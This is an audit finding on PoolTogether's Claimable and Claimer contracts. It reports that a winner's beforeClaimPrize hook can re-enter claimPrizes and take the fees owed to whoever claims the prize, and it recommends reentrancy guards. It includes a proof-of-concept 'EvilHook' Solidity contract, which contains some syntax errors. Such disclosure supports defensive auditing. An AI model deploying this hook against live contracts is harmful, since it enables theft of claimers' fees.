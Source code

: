 Mythical Lime Tuna

high

# Claimable:claimPrize beforeClaimPrize hooks can be used to steal rewards from the reward recipient

## Summary
The beforeClaimPrize hook allows malicious prize winners to set up hooks that will call the claimPrize function and claim the reward fees before the original caller is able to receive it.
## Vulnerability Detail
The claimPrize function at the Claimable abstract contract claims the prize for a specific winner.
The first thing it does during the call is attempt to call the beforeClaimPrize hook, which is an user-customizable feature that allows people to set up contracts to do actions before claiming the prize:
```solidity
function claimPrize(
        address _winner,
        uint8 _tier,
        uint32 _prizeIndex,
        uint96 _reward,
        address _rewardRecipient
    ) external onlyClaimer returns (uint256) {
        address _prizeRecipient;
        bytes memory _hookData;

        if (_hooks[_winner].useBeforeClaimPrize) {
            (_prizeRecipient, _hookData) = _hooks[_winner].implementation.beforeClaimPrize{ gas: HOOK_GAS }(
                _winner,
                _tier,
                _prizeIndex,
                _reward,
                _rewardRecipient
            );
        } ...
        }
```

The issue with that is both the claimPrize function and the Claimer contract's claimPrizes function, do not offer reentrancy protection:
```solidity
function claimPrizes(
    IClaimable _vault,
    uint8 _tier,
    address[] calldata _winners,
    uint32[][] calldata _prizeIndices,
    address _feeRecipient,
    uint256 _minFeePerClaim
  ) external returns (uint256 totalFees) {
```

This allows the malicious winner to set up hook contracts that can call claimPrizes during the beforeClaimPrize execution. 
With the arguments provided at the beforeClaimPrize call, the hook is able to claim the claim fees before the original claimer - as neither involved functions offer reentrancy protection. 

### Scenario
Consider Alice has won a prize and Bob is going to claim it for her.
Alice first sets up a hook contract with the following implementation:
```solidity
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.24;

interface IClaimer {
    function claimPrizes(
        IClaimable _vault,
        uint8 _tier,
        address[] calldata _winners,
        uint32[][] calldata _prizeIndices,
        address _feeRecipient,
        uint256 _minFeePerClaim
    ) external returns (uint256 totalFees);
}

interface IClaimable {
    // ...
}

contract EvilHook {
    IClaimable public _vault;

    constructor(IClaimable vault) {
        _vault = vault;
    }

    function beforeClaimPrize(
        address winner,
        uint8 tier,
        uint32 prizeIndex,
        uint96 reward,
        address rewardRecipient
    ) external returns (address prizeRecipient, bytes memory data) {
        address[] memory winners = new address;
        winners[0] = winner;
        uint32[][] memory prizeIndices = new uint32[];
        prizeIndices[0] = prizeIndex;
        return IClaimer(CLAIMER_CONTRACT_ADDRESS).claimPrizes(
            _vault,
            tier,
            winners,
            prizeIndices,
            address(this),
            reward
        );
    }
}

```

Bob calls claimPrize for a prize Alice has won.
A contract controlled by Alice receives the claim fees, as the evil hook is called before prizePool.claimPrize is called with Bob's provided arguments.

As the Claimer.claimPrizes does vault.claimPrize calls inside try/catch blocks, Alice will receive the fees and Bob will have this claim silently fail without transaction reversion.
## Impact
Malicious hooks can be used to steal claimer's fees with a simple setup.

## Code Snippet
https://github.com/sherlock-audit/2024-05-pooltogether/blob/main/pt-v5-claimer/src/Claimer.sol#L162
https://github.com/sherlock-audit/2024-05-pooltogether/blob/1aa1b8c028b659585e4c7a6b9b652fb075f86db3/pt-v5-vault/src/abstract/Claimable.sol#L87

## Tool used
Manual Review

## Recommendation
Make sure the claimPrize function at the Claimable contract and the claimPrizes functions at the Claimer contract are not reentrant as without reentrancy protection, hooks could be used to steal claimer incentives.
